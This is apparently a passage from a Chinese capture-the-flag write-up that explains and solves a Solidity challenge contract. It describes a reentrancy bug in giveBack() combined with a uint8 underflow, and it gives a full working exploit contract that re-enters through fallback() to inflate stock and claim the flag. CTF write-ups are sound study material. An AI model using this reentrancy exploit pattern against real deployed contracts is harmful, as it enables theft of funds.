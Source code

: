 buy()` 函数可以让我们购买某一项商品，而 `giveBack()` 是把商品退回并返回余额。值得注意的是 `giveBack()`  是先给用户退钱，再让用户的商品存储变化，这就提供了重入攻击的机会。用合约去操作`giveBack()` 函数，当执行到 `msg.sender.call.value(1)();` 并开始打钱时会调用合约的 `fallback()` 函数，在 `fallback()` 函数中我们可以再次调用 `giveBack()`。由于一开始我们只有一个单位的商品库存，正常调用`giveBack()` 函数会使库存 --，变为 0，再次调用再次 --，会造成下溢出，变为 `uint8` 的最大值 255，将货物卖出即可。

部署攻击合约：

```
pragma solidity ^0.4.23;
// Author : imagin
// Blog : https://imagin.vip/
// Filename : exp.sol

import "Taqini.sol";
contract exp{
    XiaoMaiBu x;
    uint8 num;
    uint8 times;
    constructor (address addr){
        x = XiaoMaiBu(addr);
    }
    
    function getFlag() public payable returns (string){
        x.deposit.value(1)();
        for(uint8 i = 0; i < 5; i++){
            num = i;
            attack();
            attack();
        }
        x.buy(5);
        return x.getFlag();
    }
    
    function flag() public view returns (string){
        return x.getFlag();
    }
    
    function attack() public payable{
        times = 1;
        x.buy(num);
        x.giveBack(num);
        x.giveAllBack(num);
    }
    
    function getMyCredit() public view returns (uint256){
        return x.getCredit(this);
    }
    
    function getMyGood(uint8 index) public view returns (uint8){
        return x.getMyGood(index);
    }
    
    function() public payable{
        if(times > 0){
            times --;
            x.giveBack(num);
        }
        
    }
}
```

